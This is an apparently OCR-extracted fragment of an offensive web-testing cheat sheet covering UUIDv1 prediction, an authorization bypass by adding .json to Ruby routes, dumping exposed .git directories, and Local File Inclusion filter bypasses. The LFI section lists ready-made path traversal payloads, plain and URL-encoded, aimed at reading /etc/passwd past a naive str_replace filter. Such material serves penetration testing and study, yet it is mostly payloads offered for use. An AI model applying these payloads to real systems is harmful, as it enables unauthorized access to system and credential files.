 ### UUIDv1

https://caon.io/docs/exploitation/other/uuid/https://github.com/felipecaon/uuidv1gen

### Others

- > add .json if in ruby

```
/user/1029 # Unauthorized
/user/1029.json # Authorized

```

## Git Exposed

```
git-dumper <http://site.com/.git> .

```

https://github.com/arthaud/git-dumper

### Tools

https://github.com/internetwache/GitTools

## Local File Inclusion - LFI

### Replace ../ - Bypass

$language = str_replace('../', '', $_GET['file']);

```
/....//....//....//....//etc/passwd
..././..././..././..././etc/paswd
....\\/....\\/....\\/....\\/etc/passwd

```

### Block . and / - Bypass

- > urlencode and Double urlencode /etc/passwd

```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

```

```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34

```
